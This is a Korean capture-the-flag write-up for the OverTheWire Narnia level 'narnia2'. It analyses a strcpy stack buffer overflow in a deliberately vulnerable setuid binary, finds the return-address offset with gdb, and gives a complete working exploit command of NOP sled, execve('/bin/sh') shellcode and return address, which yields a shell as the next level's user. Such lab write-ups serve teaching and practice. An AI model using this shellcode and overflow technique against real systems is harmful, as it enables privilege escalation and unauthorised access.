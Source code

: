 ## 1. 문제 확인
- ID : narnia2
- Target : /narnia/narnia2
- Flag : /etc/narnia_pass/narnia3
```
narnia2@gibson:/narnia$ ./narnia2
Usage: ./narnia2 argument
narnia2@gibson:/narnia$ ./narnia2 aaa
aaanarnia2@gibson:/narnia$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
- 프로그램 실행 인자 값을 strcpy() 함수로 buf에 복사한 후 다시 buf를 출력함
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```
### 2.2 Code 분석
- buf 사이즈는 128byte이고, strcpy()로 복사할 때 사이즈 제한이 없으므로 128byte 이상 복사하면 buffer overflow가 발생
```
	char buf[128];

    ...
    strcpy(buf,argv[1]);
```

<br/><br/>
## 3. Exploit
- 프로그램 실행 인자값으로 140글자를 입력해보면 Segmentation fault 발생
```
	narnia2@gibson:/narnia$ ./narnia2 `echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"`
	Segmentation fault
	narnia2@gibson:/narnia$
```
- gdb로 실행하여 buf 사이즈 128byte에 추가로 12byte를 입력하여 오류가 발생되는 메모리 위치 확인해 보면, 0x43434343(CCCC) 에서 오류가 발생되었으므로 buf 위치로 부터 132byte 떨어진 위치에 리턴주소가 있음
```
	(gdb) r `echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD"`
	Starting program: /narnia/narnia2 `echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD"`
	Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
	[Thread debugging using libthread_db enabled]
	Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

	Program received signal SIGSEGV, Segmentation fault.
	0x43434343 in ?? ()
	(gdb)
```
- 오류발생 시점에 스택 메모리를 확인해보면 입력값이 0xffffd550 ~ 0xffffd5d0 에 위치
```
	(gdb) x/250x $esp
    ...
    0xffffd530:     0x00000000      0x00000000      0x00000000      0x2f000000
	0xffffd540:     0x6e72616e      0x6e2f6169      0x696e7261      0x41003261
	0xffffd550:     0x41414141      0x41414141      0x41414141      0x41414141
	0xffffd560:     0x41414141      0x41414141      0x41414141      0x41414141
	0xffffd570:     0x41414141      0x41414141      0x41414141      0x41414141
	0xffffd580:     0x41414141      0x41414141      0x41414141      0x41414141
	0xffffd590:     0x41414141      0x41414141      0x41414141      0x41414141
	0xffffd5a0:     0x41414141      0x41414141      0x41414141      0x41414141
	0xffffd5b0:     0x41414141      0x41414141      0x41414141      0x41414141
	0xffffd5c0:     0x41414141      0x41414141      0x41414141      0x42414141
	0xffffd5d0:     0x43424242      0x44434343      0x00444444      0x4c454853
	0xffffd5e0:     0x622f3d4c      0x622f6e69      0x00687361      0x3d445750
```
- 대략적인 위치(0xffffd570)를 리턴주소로 잡고, [NOP(0x90) + 쉘코드] 132byte + [리턴주소] 4byte 를 인자값으로 실행하면 쉘이 뜸
```
	narnia2@gibson:/narnia$ ./narnia2 `echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80\x70\xd5\xff\xff"`
	$ id
	uid=14003(narnia3) gid=14002(narnia2) groups=14002(narnia2)
	$
```
